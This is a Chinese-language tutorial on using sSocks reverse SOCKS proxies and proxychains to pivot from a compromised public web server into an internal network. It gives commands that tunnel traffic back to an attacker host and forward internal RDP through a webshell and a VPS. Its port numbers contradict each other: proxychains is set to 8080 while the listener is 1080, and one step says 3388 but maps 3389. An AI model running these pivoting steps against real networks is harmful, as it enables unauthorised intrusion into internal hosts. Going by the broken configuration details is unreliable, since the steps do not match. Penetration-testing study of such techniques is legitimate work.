


# 利用ssocks进行内网穿透

sSocks是一个socks代理工具套装，可用来开启socks代理服务，支持socks5验证，支持IPV6和UDP，并提供反向socks代理服务，即将远程计算机作为socks代理服务端，反弹回本地，极大方便内网的渗透测试，而proxychains代理链是Linux下一款代理设置工具。由于Ssocks不稳定，所以不建议使用。
现在有这么一个环境，我们获取到了位于公网Web服务器的shell，该web服务器是Linux系统，内网中存在另外一台主机，这里假设内网存在一台Web服务器。然后，我们现在要将公网Web服务器设置为代理，访问和探测内网Web服务器的信息。

首先，我们的主机和公网的Web服务器都得安装上Ssocks。
proxychains的话 linux(基于debian)下直接apt install proxychains 就可以了
####Web服务器的操作

```
./rssocks -vv -s 100.100.10.13:9999   #接收100.100.10.13的9999端口的流量 
```



## 主机的操作

```
首先配置proxychains代理链的配置文件，把最后的内容改成  socks5 127.0.0.1 8080 

./rcsocks -l 1080 -p 9999 -vv   #然后将本地的1080端口的流量转发到9999端口

接下来，我们想要访问和操作操作内网主机192.168.10.19的话，只需要在命令前面加上 proxychains

比如，获得内网Web服务器的网页文件： proxychains curl 192.168.10.19 
```




## ssocks转发的其他操作

```
第一步，用sSocks在VPS上建立3388与3389端口对应关系，实现流量互通：

root @ kali：〜＃/ root / ssocks-0.0.14 / src / rcsocks -l 3389 -p 3389 -vv

第二步，从攻击端连接VPS的3388端口，建议用freerdp而非rdesktop，因为前者支持远程与本地连接等待，文本复制粘贴，挂载远程文件系统：

root @kali：〜＃xfreerdp / u：administrator / p：admin / v：【你的ip】：3389

第三步，立即在大马上执行端口转发，可能需要连续多次点击开始： `注意，整个过程对步骤先后顺序敏感，VPS上rcsocks端口映射好以后就可以不管了，先在攻击端执行xfreerdp，让其会话保持，再在webshel​​l上转发内网的3389。` 
```